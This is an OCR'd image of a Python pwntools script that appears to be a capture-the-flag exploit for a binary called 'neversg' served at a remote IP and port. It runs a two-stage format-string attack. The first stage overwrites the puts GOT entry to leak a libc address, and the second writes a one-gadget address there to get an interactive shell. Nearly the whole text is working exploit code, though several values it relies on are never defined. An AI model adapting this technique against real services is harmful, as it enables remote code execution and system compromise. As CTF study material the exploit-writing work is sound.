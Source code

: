 ```python
constraints:
  [rsp+0x70] == NULL
'''

context.clear(arch = 'amd64')
def main(argv):
	if len(argv)<2:
		r=process("./neversg")
	else:
		r=remote("104.131.90.29",8004)
	pause()

	# Stage 1 : write main to got puts and leak libc
	r.recvuntil("Enter something: ")
	offset=14 # offset to target 
	pl="%29$p....%{}$p".format(str(offset)) #  bypass not able print null byte in printf
	l=len(pl)
	pl+="%{}c%{}$hn".format(str(0xffff&ret_main-l-12),str(offset))
	pl+="A"*6 #padding
	pl+=p64(got_puts) #<-- target
	r.sendline(pl)

	#leak
	leak=int(r.recv(14),16)
	syst=leak+to_system
	log.info("system : "+hex(syst))
	
	magic_gadget=leak+to_mg
	log.info("magic : "+hex(magic_gadget))
	pause()

	# Stage 2 : write magic gadget to got puts
	r.recvuntil("Enter something: ")
	offset=21
	pl="%{}$p%{}$p%{}$p%{}$p".format(str(offset),str(offset+1),str(offset+2),str(offset+3))
	l=len(pl)
	#auto genarate payload
	ppp=fmtstr_payload(21,{got_puts:magic_gadget},(l-12*2+4),write_size='short')
	pl+=ppp[ppp.find('%'):] 
	pl+="\x00"*8 # <--- rsp+0x70
	pl+="\x00"*8

	pl+=p64(got_puts)
	pl+=p64(got_puts+2)
	pl+=p64(got_puts+4)
	pl+=p64(got_puts+6)

	print len(pl)
	r.sendline(pl)
	
	r.interactive()

if __name__=="__main__":
	main(sys.argv)
```
